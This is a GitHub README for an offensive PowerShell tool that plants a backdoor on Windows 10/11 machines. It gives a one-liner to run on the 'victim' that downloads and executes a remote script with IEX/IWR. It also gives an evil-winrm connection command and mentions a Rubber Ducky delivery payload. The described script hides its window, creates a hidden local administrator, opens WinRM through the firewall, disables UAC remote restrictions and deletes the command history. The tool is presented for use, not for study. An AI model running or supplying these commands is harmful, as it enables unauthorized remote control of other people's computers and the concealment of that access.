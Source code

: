 # WinRM Reverse Shell

## Introduction
This repository provides a PowerShell script to establish a reverse shell connection via Windows Remote Management (WinRM) on Windows 10/11. Additionally it includes a Rubber Ducky payload for alternative deployment.

## Dependencies
- Both attacker and victim must be on the same network for the connection to be established successfully.
- Ensure you have administrative access to the target machine.

## Usage
1. Edit `WinRM.ps1`:
   - Set your desired username and password by modifying the variables `$Username` and `$Password`.
2. Run the following PowerShell one-liner on the victim machine with administrative privileges:
   ```powershell
   IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")

## Use Evil-WinRM to connect to the victim machine:
evil-winrm -i YOUR.IP.ADDRESS -u Admin -p Password1

# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)


## Rubber Ducky Payload
The repository includes a Rubber Ducky payload for alternative deployment.
Edit the payload speed and URL as needed.

https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec

## Additional Information
The created user account can be viewed in User Accounts.
To view the account, type netplwiz in the Run box.

+ Account information may also be visible on the login screen.

![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/8ee30db3-aee3-4720-9d75-228fd26a6aec)


![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/2d0a0ada-3810-4cc3-9e8a-338c4ef3079d)

## Script Breakdown
### The PowerShell script is divided into several parts:

#### Function to hide a window.
#### Creation of a new local user account.
#### Addition of the new user to the local Administrators group.
#### Enabling of Windows Remote Management (WinRM).
#### Adding a firewall rule to allow WinRM traffic.
#### Disabling UAC remote restrictions.
#### Deletion of run box history and PowerShell history.

## Credits
### Inspired by TW-D.
